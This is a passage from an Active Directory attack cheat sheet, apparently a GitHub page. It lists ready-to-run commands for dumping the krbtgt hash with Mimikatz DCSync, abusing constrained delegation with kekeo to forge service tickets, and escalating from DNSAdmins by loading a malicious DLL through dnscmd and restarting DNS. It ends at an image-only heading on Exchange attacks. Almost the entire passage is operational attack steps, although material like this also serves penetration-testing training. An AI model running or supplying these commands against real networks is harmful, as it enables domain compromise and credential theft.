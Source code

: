 #### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Constrained delegation Computer
#### Requesting TGT with a PC hash
```
./kekeo.exe
Tgt::ask /user:dcorp-adminsrv$ /domain:<DOMAIN> /rc4:<HAHS>
```

#### Requesting TGS
No validation for the SPN specified
```
Tgs::s4u /tgt:<kirbi file> /user:Administrator@<DOMAIN> /service:<SERVICE ALLOWED TO DELEGATE/<MACHINE NAME>|ldap/<MACHINE NAME>
```

#### Using mimikatz to inject TGS ticket and executing DCsync
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"Kerberos::ptt <KIRBI FILE>"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

## DNS Admins
#### Enumerate member of the DNS admin group
```
Get-NetGRoupMember “DNSAdmins”
```

#### From the privilege of DNSAdmins group member, configue DDL using dnscmd.exe (needs RSAT DNS)
Share the directory the ddl is in for everyone so its accessible.
logs all DNS queries on C:\Windows\System32\kiwidns.log 
```
Dnscmd <dns server> /config /serverlevelplugindll \\<ip>\dll\mimilib.dll
```

#### Restart DNS
```
Sc \\<dns server> stop dns
Sc \\<dns server> start dns
```

## Cross Domain attacks
### MS Exchange2
![afbeelding](https://user-images.githubusercontent.com/43987245/119706037-bf8d3000-be59-11eb-84cc-6568ba6e5d26.png)
